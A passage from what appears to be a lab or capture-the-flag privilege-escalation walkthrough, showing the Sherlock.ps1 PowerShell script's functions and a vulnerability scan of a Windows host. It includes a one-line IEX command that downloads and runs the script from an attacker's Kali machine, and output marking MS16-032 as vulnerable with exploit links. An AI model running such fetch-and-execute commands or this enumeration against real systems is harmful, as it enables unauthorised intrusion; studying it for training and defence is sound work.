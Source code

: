```
$ grep -i function Sherlock.ps1
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function Get-CPUCoreCount {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
👍function Find-AllVulns 👍{
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-MS16034 {
function Find-CVE20177199 {
function Find-MS16135 {
```

**Add `Find-AllVulns` command to end of script**
```
Find-AllVulns
```

We can then serve the script from our Kali machine and subsequently download it on the remote host.

**Download Sherlock** via PowerShell
```
IEX(New-Object Net.Webclient).downloadString('http://<kali-ip>:8000/Sherlock.ps1')
```

**results of `Sherlock.ps1`**
```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.Webclient).downloadString('http://<kali-ip>:8000/Sherlock.ps1')


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

✂️ ................................ ✂️

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

✂️ ................................ ✂️

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
```